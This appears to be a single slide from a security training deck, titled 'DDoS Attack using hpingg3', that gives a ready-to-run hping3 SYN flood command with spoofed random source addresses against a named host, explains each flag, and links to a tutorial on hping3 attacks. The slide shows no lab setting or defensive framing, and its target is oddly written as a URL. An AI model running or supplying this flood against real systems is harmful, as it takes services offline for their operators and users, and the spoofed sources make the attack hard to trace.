

# DDoS Attack using hpingg3
Run the command: hping3 --flood -S -V --rand-source http://stv.com
Where:
--flood send packets as fast as possible
-S (Syn packet): legit TCP packet connection
-V verbose mode
--rand-source randomize the IP source address, like it's requested from different systems (sort of DDoS)

Follow steps in
https://ravi73079.medium.com/attacks-to-be-performed-using-hping3-packet-crafting-98bc25584745